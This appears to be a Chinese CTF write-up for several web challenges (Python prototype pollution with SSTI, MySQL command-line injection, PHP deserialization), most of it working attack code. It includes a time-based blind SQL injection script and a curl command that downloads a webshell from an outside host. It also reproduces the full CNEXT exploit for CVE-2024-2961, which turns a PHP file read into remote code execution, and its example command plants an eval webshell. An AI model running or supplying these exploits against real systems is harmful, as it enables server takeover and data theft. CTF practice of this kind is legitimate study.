return {"message": "这是你的lucky_number，请拿好，去/check下检查一下吧", "lucky_number": create.__kwdefaults__["lucky_number"]}
return {"message": "你有什么想创造的吗？", "lucky_number": "nope"}
进入题目，根据提示之间前往**/flag，可以得到部分源码以及提示。根据代码可知在/m4G1c路由下存在着导致原型链污染的merge函数，再结合其它提示可知此处是要污染heaven.py的create函数的kwdefaults属性，该属性存储的是仅关键字参数，即位于之后的参数。由于create函数在另一个模块中，我们需要利用sys模块的modules属性来获取到heaven.py，但是代码中并没有导入sys模块。那么该怎么获取到这个模块呢？在python中存在着*spec内置属性，包含了关于类加载时的信息，定义在Lib/importlib/_bootstrap.py的类ModuleSpec，所以可以直接采用<模块名>.spec.init.globals[‘sys’]**获取到sys模块，此处就可以使用json模块获取，最终的payload如下
{
"__init__": {
"__globals__": {
"json":{
"__spec__":{
"__init__" : {
"__globals__" : {
"sys" : {
"modules" : {
"heaven" : {
"create" : {
"__kwdefaults__" : {
"confirm" : true,
"lucky_number" : "5346"
}
}
}
}
}
}
}
}
}
}
}
}成功污染后去指定目录进行常规的ssti注入即可
flag={{cycler.__init__.__globals__.os.popen('cat /flag').read()}}only one sql
<?php
highlight_file(__FILE__);
$sql = $_GET['sql'];
if (preg_match('/select|;|@|\n/i', $sql)) {
die("你知道的，不可能有sql注入");
}
if (preg_match('/"|\$|`|\\\\/i', $sql)) {
die("你知道的，不可能有RCE");
}
//flag in ctf.flag
$query = "mysql -u root -p123456 -e \"use ctf;select '没有select，让你执行一句又如何';" . $sql . "\"";
system($query); 没有select，让你执行一句又如何 没有select，让你执行一句又如何 虽然ban了select 但是可以使用show来查看表名和列名
show tables # Tables_in_ctf flag
show columns from flag # id data使用语句delete from flag where data like 'f%' and sleep(5)来进行注入，如果like成功匹配到，and字段会对后面的语句进行处理，如果like匹配不到（返回false）and后语句则不会进行处理，因为sleep()函数返回值为null，因此整个where的判断永假
import requests
import string
url = "http://challenge.basectf.fun:37210/"
sqlstr = string.ascii_lowercase + string.digits + '-' + "{}"
flag = ''
for i in range(100):
for s in sqlstr:
payload = f"delete from flag where data like '{flag+s}%' and sleep(5)"
params = {
"sql": payload
}
try:
response = requests.request("GET", url, params=params, timeout=4)
except:
print(flag)
flag += s
break
RCE or Sql Inject(mysql ? )
<?php
highlight_file(__FILE__);
$sql = $_GET['sql'];
if (preg_match('/se|ec|;|@|del|into|outfile/i', $sql)) {
die("你知道的，不可能有sql注入");
}
if (preg_match('/"|\$|`|\\\\/i', $sql)) {
die("你知道的，不可能有RCE");
}
$query = "mysql -u root -p123456 -e \"use ctf;select 'ctfer! You can\\'t succeed this time! hahaha'; -- " . $sql . "\"";
system($query); ctfer! You can't succeed this time! hahaha ctfer! You can't succeed this time! hahaha 相比上一道题多过滤了se，ec，del，into，outfile。但是把换行放出来了。并且题目的语句多了个注释在末尾。
题目是一个比较冷门的考点，mysql命令行程序的命令执行，常见于mysql有suid时的提权
hint3中提示输个问号看看，先换行逃过注释，然后一个?也就是sql=%0a?

所以可以使用system进行rce了，但flag不在根目录，下个马进来好了
?sql=%0asystem curl hsad.xyz/hsad.txt -o hsad.phphsad=system('mysql -u root -p123456 -e "use ctf;show tables;select * from flag"')也可以直接env就有flag
Sql Inject or RCE(delimiter handler)
<?php
highlight_file(__FILE__);
$sql = $_GET['sql'];
if (preg_match('/se|ec|st|;|@|delete|into|outfile/i', $sql)) {
die("你知道的，不可能有sql注入");
}
if (preg_match('/"|\$|`|\\\\/i', $sql)) {
die("你知道的，不可能有RCE");
}
$query = "mysql -u root -p123456 -e \"use ctf;select 'ctfer! You can\\'t succeed this time! hahaha'; -- " . $sql . "\"";
system($query); ctfer! You can't succeed this time! hahaha ctfer! You can't succeed this time! hahaha 加了st过滤 不能使用system了，并且del换成了delete。所以关键点会在del上吗（存疑，确信
发现mysql的内置命令里面有一条正好和del有关delimiter。可以利用delimiter来更改一条sql语句的结束符

那么这道题就可以用这种方法来打堆叠注入，由于select被禁用无法查看flag，可以使用handler读表的方式来绕过，需要注意的是handler读的时候read first中first被禁用，可以使用read next来绕过
Payload:
?sql=%0adelimiter hsad%0ahandler flag openhsad%0ahandler flag read nexthandler
# 打开一个表名为 tbl_name 的表的句柄
HANDLER tbl_name OPEN [ [AS] alias]
# 1、通过指定索引查看表，可以指定从索引那一行开始，通过 NEXT 继续浏览
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
[ WHERE where_condition ] [LIMIT ... ]
# 2、通过索引查看表
# FIRST: 获取第一行（索引最小的一行）
# NEXT: 获取下一行
# PREV: 获取上一行
# LAST: 获取最后一行（索引最大的一行）
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
[ WHERE where_condition ] [LIMIT ... ]
# 3、不通过索引查看表
# READ FIRST: 获取句柄的第一行
# READ NEXT: 依次获取其他行（当然也可以在获取句柄后直接使用获取第一行）
# 最后一行执行之后再执行 READ NEXT 会返回一个空的结果
HANDLER tbl_name READ { FIRST | NEXT }
[ WHERE where_condition ] [LIMIT ... ]
# 关闭已打开的句柄
HANDLER tbl_name CLOSE
Just Readme (前置)(CVE-2024-2961)
Hint:
echo file_get_contents($_POST['file']);python3 cnext-exploit.py http://challenge.basectf.fun:44169/ "echo '<?php eval(\$_POST[0]);?>'>/var/www/html/hsad.php;"cnext-exploit.py
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#
from __future__ import annotations
import base64
import zlib
from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError
from pwn import *
from ten import *
HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")
class Remote:
"""A helper class to send the payload and download files.
The logic of the exploit is always the same, but the exploit needs to know how to
download files (/proc/self/maps and libc) and how to send the payload.
The code here serves as an example that attacks a page that looks like:
```php
<?php
$data = file_get_contents($_POST['file']);
echo "File contents: $data";
```
Tweak it to fit your target, and start the exploit.
"""
def __init__(self, url: str) -> None:
self.url = url
self.session = Session()
def send(self, path: str) -> Response:
"""Sends given `path` to the HTTP server. Returns the response.
"""
return self.session.post(self.url, data={"file": path})
def download(self, path: str) -> bytes:
"""Returns the contents of a remote file.
"""
path = f"php://filter/convert.base64-encode/resource={path}"
response = self.send(path)
# 匹配语句记得根据题目环境更改
# data = response.re.search(b"(.*)", flags=re.S).group(1)
data = response.text
return base64.decode(data)
@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep_time", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
"pad",
"Number of 0x100 chunks to pad with. If the website makes a lot of heap "
"operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
"""CNEXT exploit: RCE using a file read primitive in PHP."""
url: str
command: str
sleep: int = 1
heap: str = None
pad: int = 20
def __post_init__(self):
self.remote = Remote(self.url)
self.log = logger("EXPLOIT")
self.info = {}
self.heap = self.heap and int(self.heap, 16)
def check_vulnerable(self) -> None:
"""Checks whether the target is reachable and properly allows for the various
wrappers and filters that the exploit needs.
"""
def safe_download(path: str) -> bytes:
try:
return self.remote.download(path)
except ConnectionError:
failure("Target not [b]reachable[/] ?")
def check_token(text: str, path: str) -> bool:
result = safe_download(path)
return text.encode() == result
text = tf.random.string(50).encode()
base64 = b64(text, misalign=True).decode()
path = f"data:text/plain;base64,{base64}"
result = safe_download(path)
if text not in result:
msg_failure("Remote.download did not return the test string")
print("--------------------")
print(f"Expected test string: {text}")
print(f"Got: {result}")
print("--------------------")
failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")
msg_info("The [i]data://[/] wrapper works")
text = tf.random.string(50)
base64 = b64(text.encode(), misalign=True).decode()
path = f"php://filter//resource=data:text/plain;base64,{base64}"
if not check_token(text, path):
failure("The [i]php://filter/[/] wrapper does not work")
msg_info("The [i]php://filter/[/] wrapper works")
text = tf.random.string(50)
base64 = b64(compress(text.encode()), misalign=True).decode()
path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"
if not check_token(text, path):
failure("The [i]zlib[/] extension is not enabled")
msg_info("The [i]zlib[/] extension is enabled")
msg_success("Exploit preconditions are satisfied")
def get_file(self, path: str) -> bytes:
with msg_status(f"Downloading [i]{path}[/]..."):
return self.remote.download(path)
def get_regions(self) -> list[Region]:
"""Obtains the memory regions of the PHP process by querying /proc/self/maps."""
maps = self.get_file("/proc/self/maps")
maps = maps.decode()
PATTERN = re.compile(
r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
)
regions = []
for region in table.split(maps, strip=True):
if match := PATTERN.match(region):
start = int(match.group(1), 16)
stop = int(match.group(2), 16)
permissions = match.group(3)
path = match.group(4)
if "/" in path or "[" in path:
path = path.rsplit(" ", 1)[-1]
else:
path = ""
current = Region(start, stop, permissions, path)
regions.append(current)
else:
print(maps)
failure("Unable to parse memory mappings")
self.log.info(f"Got {len(regions)} memory regions")
return regions
def get_symbols_and_addresses(self) -> None:
"""Obtains useful symbols and addresses from the file read primitive."""
regions = self.get_regions()
LIBC_FILE = "/dev/shm/cnext-libc"
# PHP's heap
self.info["heap"] = self.heap or self.find_main_heap(regions)
# Libc
libc = self._get_region(regions, "libc-", "libc.so")
self.download_file(libc.path, LIBC_FILE)
self.info["libc"] = ELF(LIBC_FILE, checksec=False)
self.info["libc"].address = libc.start
def _get_region(self, regions: list[Region], *names: str) -> Region:
"""Returns the first region whose name matches one of the given names."""
for region in regions:
if any(name in region.path for name in names):
break
else:
failure("Unable to locate region")
return region
def download_file(self, remote_path: str, local_path: str) -> None:
"""Downloads `remote_path` to `local_path`"""
data = self.get_file(remote_path)
Path(local_path).write(data)
def find_main_heap(self, regions: list[Region]) -> Region:
# Any anonymous RW region with a size superior to the base heap size is a
# candidate. The heap is at the bottom of the region.
heaps = [
region.stop - HEAP_SIZE + 0x40
for region in reversed(regions)
if region.permissions == "rw-p"
and region.size >= HEAP_SIZE
and region.stop & (HEAP_SIZE-1) == 0
and region.path in ("", "[anon:zend_alloc]")
]
if not heaps:
failure("Unable to find PHP's main heap in memory")
first = heaps[0]
if len(heaps) > 1:
heaps = ", ".join(map(hex, heaps))
msg_info(f"Potential heaps: [i]{heaps}[/] (using first)")
else:
msg_info(f"Using [i]{hex(first)}[/] as heap")
return first
def run(self) -> None:
self.check_vulnerable()
self.get_symbols_and_addresses()
self.exploit()
def build_exploit_path(self) -> str:
"""On each step of the exploit, a filter will process each chunk one after the
other. Processing generally involves making some kind of operation either
on the chunk or in a destination chunk of the same size. Each operation is
applied on every single chunk; you cannot make PHP apply iconv on the first 10
chunks and leave the rest in place. That's where the difficulties come from.
Keep in mind that we know the address of the main heap, and the libraries.
ASLR/PIE do not matter here.
The idea is to use the bug to make the freelist for chunks of size 0x100 point
lower. For instance, we have the following free list:
... -> 0x7fffAABBCC900 -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB00
By triggering the bug from chunk ..900, we get:
... -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB48 -> ???
That's step 3.
Now, in order to control the free list, and make it point whereever we want,
we need to have previously put a pointer at address 0x7fffAABBCCB48. To do so,
we'd have to have allocated 0x7fffAABBCCB00 and set our pointer at offset 0x48.
That's step 2.
Now, if we were to perform step2 an then step3 without anything else, we'd have
a problem: after step2 has been processed, the free list goes bottom-up, like:
0x7fffAABBCCB00 -> 0x7fffAABBCCA00 -> 0x7fffAABBCC900
We need to go the other way around. That's why we have step 1: it just allocates
chunks. When they get freed, they reverse the free list. Now step2 allocates in
reverse order, and therefore after step2, chunks are in the correct order.
Another problem comes up.
To trigger the overflow in step3, we convert from UTF-8 to ISO-2022-CN-EXT.
Since step2 creates chunks that contain pointers and pointers are generally not
UTF-8, we cannot afford to have that conversion happen on the chunks of step2.
To avoid this, we put the chunks in step2 at the very end of the chain, and
prefix them with `0\n`. When dechunked (right before the iconv), they will
"disappear" from the chain, preserving them from the character set conversion
and saving us from an unwanted processing error that would stop the processing
chain.
After step3 we have a corrupted freelist with an arbitrary pointer into it. We
don't know the precise layout of the heap, but we know that at the top of the
heap resides a zend_mm_heap structure. We overwrite this structure in two ways.
Its free_slot[] array contains a pointer to each free list. By overwriting it,
we can make PHP allocate chunks whereever we want. In addition, its custom_heap
field contains pointers to hook functions for emalloc, efree, and erealloc
(similarly to malloc_hook, free_hook, etc. in the libc). We overwrite them and
then overwrite the use_custom_heap flag to make PHP use these function pointers
instead. We can now do our favorite CTF technique and get a call to
system(<chunk>).
We make sure that the "system" command kills the current process to avoid other
system() calls with random chunk data, leading to undefined behaviour.
The pad blocks just "pad" our allocations so that even if the heap of the
process is in a random state, we still get contiguous, in order chunks for our
exploit.
Therefore, the whole process described here CANNOT crash. Everything falls
perfectly in place, and nothing can get in the middle of our allocations.
"""
LIBC = self.info["libc"]
ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
ADDR_EFREE = LIBC.symbols["__libc_system"]
ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]
ADDR_HEAP = self.info["heap"]
ADDR_FREE_SLOT = ADDR_HEAP + 0x20
ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168
ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10
CS = 0x100
# Pad needs to stay at size 0x100 at every step
pad_size = CS - 0x18
pad = b"\x00" * pad_size
pad = chunked_chunk(pad, len(pad) + 6)
pad = chunked_chunk(pad, len(pad) + 6)
pad = chunked_chunk(pad, len(pad) + 6)
pad = compressed_bucket(pad)
step1_size = 1
step1 = b"\x00" * step1_size
step1 = chunked_chunk(step1)
step1 = chunked_chunk(step1)
step1 = chunked_chunk(step1, CS)
step1 = compressed_bucket(step1)
# Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
# ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"
step2_size = 0x48
step2 = b"\x00" * (step2_size + 8)
step2 = chunked_chunk(step2, CS)
step2 = chunked_chunk(step2)
step2 = compressed_bucket(step2)
step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
step2_write_ptr = chunked_chunk(step2_write_ptr)
step2_write_ptr = compressed_bucket(step2_write_ptr)
step3_size = CS
step3 = b"\x00" * step3_size
assert len(step3) == CS
step3 = chunked_chunk(step3)
step3 = chunked_chunk(step3)
step3 = chunked_chunk(step3)
step3 = compressed_bucket(step3)
step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
assert len(step3_overflow) == CS
step3_overflow = chunked_chunk(step3_overflow)
step3_overflow = chunked_chunk(step3_overflow)
step3_overflow = chunked_chunk(step3_overflow)
step3_overflow = compressed_bucket(step3_overflow)
step4_size = CS
step4 = b"=00" + b"\x00" * (step4_size - 1)
step4 = chunked_chunk(step4)
step4 = chunked_chunk(step4)
step4 = chunked_chunk(step4)
step4 = compressed_bucket(step4)
# This chunk will eventually overwrite mm_heap->free_slot
# it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
step4_pwn = ptr_bucket(
0x200000,
0,
# free_slot
0,
0,
ADDR_CUSTOM_HEAP, # 0x18
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
ADDR_HEAP, # 0x140
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
0,
size=CS,
)
step4_custom_heap = ptr_bucket(
ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
)
step4_use_custom_heap_size = 0x140
COMMAND = self.command
COMMAND = f"kill -9 $PPID; {COMMAND}"
if self.sleep:
COMMAND = f"sleep {self.sleep}; {COMMAND}"
COMMAND = COMMAND.encode() + b"\x00"
assert (
len(COMMAND) <= step4_use_custom_heap_size
), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")
step4_use_custom_heap = COMMAND
step4_use_custom_heap = qpe(step4_use_custom_heap)
step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)
pages = (
step4 * 3
+ step4_pwn
+ step4_custom_heap
+ step4_use_custom_heap
+ step3_overflow
+ pad * self.pad
+ step1 * 3
+ step2_write_ptr
+ step2 * 2
)
resource = compress(compress(pages))
resource = b64(resource)
resource = f"data:text/plain;base64,{resource.decode()}"
filters = [
# Create buckets
"zlib.inflate",
"zlib.inflate",
# Step 0: Setup heap
"dechunk",
"convert.iconv.L1.L1",
# Step 1: Reverse FL order
"dechunk",
"convert.iconv.L1.L1",
# Step 2: Put fake pointer and make FL order back to normal
"dechunk",
"convert.iconv.L1.L1",
# Step 3: Trigger overflow
"dechunk",
"convert.iconv.UTF-8.ISO-2022-CN-EXT",
# Step 4: Allocate at arbitrary address and change zend_mm_heap
"convert.quoted-printable-decode",
"convert.iconv.L1.L1",
]
filters = "|".join(filters)
path = f"php://filter/read={filters}/resource={resource}"
return path
@inform("Triggering...")
def exploit(self) -> None:
path = self.build_exploit_path()
start = time.time()
try:
self.remote.send(path)
except (ConnectionError, ChunkedEncodingError):
pass
msg_print()
if not self.sleep:
msg_print(" [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
elif start + self.sleep <= time.time():
msg_print(" [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
else:
# Wrong heap, maybe? If the exploited suggested others, use them!
msg_print(" [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
msg_print()
def compress(data) -> bytes:
"""Returns data suitable for `zlib.inflate`.
"""
# Remove 2-byte header and 4-byte checksum
return zlib.compress(data, 9)[2:-4]
def b64(data: bytes, misalign=True) -> bytes:
payload = base64.encode(data)
if not misalign and payload.endswith("="):
raise ValueError(f"Misaligned: {data}")
return payload.encode()
def compressed_bucket(data: bytes) -> bytes:
"""Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
return chunked_chunk(data, 0x8000)
def qpe(data: bytes) -> bytes:
"""Emulates quoted-printable-encode.
"""
return "".join(f"={x:02x}" for x in data).upper().encode()
def ptr_bucket(*ptrs, size=None) -> bytes:
"""Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
if size is not None:
assert len(ptrs) * 8 == size
bucket = b"".join(map(p64, ptrs))
bucket = qpe(bucket)
bucket = chunked_chunk(bucket)
bucket = chunked_chunk(bucket)
bucket = chunked_chunk(bucket)
bucket = compressed_bucket(bucket)
return bucket
def chunked_chunk(data: bytes, size: int = None) -> bytes:
"""Constructs a chunked representation of the given chunk. If size is given, the
chunked representation has size `size`.
For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
"""
# The caller does not care about the size: let's just add 8, which is more than
# enough
if size is None:
size = len(data) + 8
keep = len(data) + len(b"\n\n")
size = f"{len(data):x}".rjust(size - keep, "0")
return size.encode() + b"\n" + data + b"\n"
@dataclass
class Region:
"""A memory region."""
start: int
stop: int
permissions: str
path: str
@property
def size(self) -> int:
return self.stop - self.start
Exploit()


1z_php
<?php
highlight_file('index.php');
# 我记得她...好像叫flag.php吧？
$emp=$_GET['e_m.p'];
$try=$_POST['try'];
if($emp!="114514"&&intval($emp,0)===114514)
{
for ($i=0;$i<strlen($emp);$i++){
if (ctype_alpha($emp[$i])){
die("你不是hacker？那请去外场等候！");
}
}
echo "只有真正的hacker才能拿到flag！"."<br>";
if (preg_match('/.+?HACKER/is',$try)){
die("你是hacker还敢自报家门呢？");
}
if (!stripos($try,'HACKER') === TRUE){
die("你连自己是hacker都不承认，还想要flag呢？");
}
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
if(stripos($b,'php')!==0){
die("收手吧hacker，你得不到flag的！");
}
echo (new $a($b))->$c();
}
else
{
die("114514到底是啥意思嘞？。？");
}
# 觉得困难的话就直接把shell拿去用吧，不用谢~
$shell=$_POST['shell'];
eval($shell);
?>
114514到底是啥意思嘞？。？- intval 有一个特性。输入的值如果是字符串，它返回的内容取决于第一个字符左侧的数字。如 intval(‘11a22’)=11。
- ctype_alpha — 做纯字符检测。——如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
- regexp 最大回溯
- php 原生类
Payload:
GET: ?e[m.p=114514.1&a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php&c=__toString
POST: "hsad"*1000000+"HACKER"也可以python一把梭
import base64
import requests
url = "http://challenge.basectf.fun:48615/"
params = {
"e[m.p": 114514.1,
"a": "SplFileObject",
"b": "php://filter/read=convert.base64-encode/resource=flag.php",
"c": "__toString"
}
data = {
"try": "hsad"*250001+"HACKER"
}
response = requests.post(url, data=data, params=params)
print(response.text)
# flag = "PD9waHAgPUJhc2VDVEZ7YWZhYzU2NjYtZWI2Yy00MGQ5LWJmMTUtYmQyYmY4OTk1MmQwfT8+Cg=="
# decoded_flag = base64.b64decode(flag)
# print(decoded_flag)ez_php(gc回收，引用绕过，反序列化逃逸)
<?php
highlight_file(__file__);
function substrstr($data)
{
$start = mb_strpos($data, "[");
$end = mb_strpos($data, "]");
return mb_substr($data, $start + 1, $end - 1 - $start);
}
class Hacker{
public $start;
public $end;
public $username="hacker";
public function __construct($start){
$this->start=$start;
}
public function __wakeup(){
$this->username="hacker";
$this->end = $this->start;
}
public function __destruct(){
if(!preg_match('/ctfer/i',$this->username)){
echo 'Hacker！';
}
}
}
class C{
public $c;
public function __toString(){
$this->c->c();
return "C";
}
}
class T{
public $t;
public function __call($name,$args){
echo $this->t->t;
}
}
class F{
public $f;
public function __get($name){
return isset($this->f->f);
}
}
class E{
public $e;
public function __isset($name){
($this->e)();
}
}
class R{
public $r;
public function __invoke(){
eval($this->r);
}
}
if(isset($_GET['ez_ser.from_you'])){
$ctf = new Hacker('{{{'.$_GET['ez_ser.from_you'].'}}}');
if(preg_match("/\[|\]/i", $_GET['substr'])){
die("NONONO!!!");
}
$pre = isset($_GET['substr'])?$_GET['substr']:"substr";
$ser_ctf = substrstr($pre."[".serialize($ctf)."]");
$a = unserialize($ser_ctf);
throw new Exception("杂鱼~杂鱼~");
}
先是pop链子
Hacker::__destruct() -> C::__toString() -> T:: __call() -> F::__get() -> E::__isset() -> R::__invoke()接着是绕 __wakeup
public function __wakeup(){
$this->username="hacker";
$this->end = $this->start;
}下边有一个赋值的操作，所以可以使用引用绕过，当end和username相互引用时，修改end的值也是在修改username的值。
$this->end = &$this->username;接着是绕过throw new Exception("杂鱼~杂鱼~");，这里有一个异常抛出，使得__destruct并不能触发，这时就需要使用gc回收的机制，使__destruct提前触发，让pop链能够往后走
参考连接：PHP反序列化
Pop:
<?php
class Hacker{
public $start;
public $end;
public $username;
}
class C{
public $c;
}
class T{
public $t;
}
class F{
public $f;
}
class E{
public $e;
public function __isset($name){
($this->e)();
}
}
class R{
public $r;
public function __invoke(){
eval($this->r);
}
}
$a = new Hacker();
$a->end = &$a->username;
$a->start = new C();
$a->start->c = new T();
$a->start->c->t = new F();
$a->start->c->t->f = new E();
$a->start->c->t->f->e = new R();
$a->start->c->t->f->e->r = "system('tac /flag');";
$b = array('1'=>$a, '2'=>null);
echo serialize($b);
// a:2:{i:1;O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:20:"system('tac /flag');";}}}}}s:3:"end";N;s:8:"username";R:9;}i:1;N;}
将最后i:2;N;替换为i:1;N;利用gc回收使__destruct提前触发
特殊变量名 ez_ser.from_you，传入ez[ser.from_you即可绕过
接下来就是字符串逃逸
function substrstr($data)
{
$start = mb_strpos($data, "[");
$end = mb_strpos($data, "]");
return mb_substr($data, $start + 1, $end - 1 - $start);
}参考链接 CTFshow_XGCTF_Ezzz_php mb_strpos与mb_substr执行差异导致的漏洞
每发送一个%f0abc，mb_strpos认为是4个字节，mb_substr认为是1个字节，相差3个字节
每发送一个%f0%9fab,mb_strpos认为是3个字节，mb_substr认为是1个字节，相差2个字节
每发送一个%f0%9f%9fa,mb_strpos认为是2个字节，mb_substr认为是1个字节，相差1个字节

于是构造绕过之前多余字符串
O:6:"Hacker":3:{s:5:"start";s:210:"{{{Payload:
GET:/?substr=%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%f0abc%9f&ez[ser.from_you=a:2:{i:1;O:6:"Hacker":3:{s:5:"start";O:1:"C":1:{s:1:"c";O:1:"T":1:{s:1:"t";O:1:"F":1:{s:1:"f";O:1:"E":1:{s:1:"e";O:1:"R":1:{s:1:"r";s:20:"system('tac /flag');";}}}}}s:3:"end";N;s:8:"username";R:9;}i:1;N;}